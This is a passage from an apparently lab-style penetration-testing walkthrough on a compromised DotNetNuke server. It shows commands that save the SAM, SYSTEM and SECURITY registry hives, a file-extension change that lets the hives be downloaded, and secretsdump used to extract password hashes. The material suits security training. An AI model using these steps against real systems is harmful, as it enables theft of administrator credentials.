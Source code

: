 From here, we can perform some post-exploitation and manually retrieve the contents of the SAM database and with it, the local administrator password hash.

```cmd-session
c:\DotNetNuke\Portals\0> reg save HKLM\SYSTEM SYSTEM.SAVE
reg save HKLM\SYSTEM SYSTEM.SAVE

The operation completed successfully.

c:\DotNetNuke\Portals\0> reg save HKLM\SECURITY SECURITY.SAVE
reg save HKLM\SECURITY SECURITY.SAVE

The operation completed successfully.

c:\DotNetNuke\Portals\0> reg save HKLM\SAM SAM.SAVE
reg save HKLM\SAM SAM.SAVE

The operation completed successfully.
```

Now we can once again modify the allowed file extensions to permit us to down the `.SAVE` files. Next, we can go back to the `File Management` page and download each of the three files to our attack host.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Finally, we can use `secretsdump` to dump the SAM database and retrieve a set of credentials from LSA secrets.
